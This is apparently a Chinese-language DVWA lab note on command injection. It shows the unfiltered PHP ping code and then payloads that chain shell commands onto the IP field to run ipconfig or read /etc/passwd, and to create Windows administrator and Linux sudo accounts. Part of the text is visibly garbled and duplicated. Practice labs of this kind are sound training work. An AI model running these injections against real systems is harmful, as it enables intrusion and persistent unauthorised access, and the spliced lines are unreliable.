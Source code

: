 <center>Command Injection命令注入</center>









## Command Injection命令注入

> 命令注入











### 1. low

> 低级
>
> 代码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=exec&security=low)

```shell
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

> 没有做任何过滤
>
> linux/windowns 的基本命令

````shell
# win
127.0.0.1 && ipconfig
# 创建用户提升管理员
net user UserName PassWord /add
net localgroup Administrators UserName /add


# linux 等
127.0.0.1 | ip addr
127.0.0.1 | cat /etc/passwd 

# 创建用户
sudo useradd -m username    # -m 创建家目录
# 设置密码
sudo passwd username
# 添加到 sudo 组
sudo usermod -aG sudo username    # Ubuntu/Debian
# 或
sudo usermod -aG wheel usernam# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALLe   # CentOS/RHEL/Arch Linux
# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALL
````







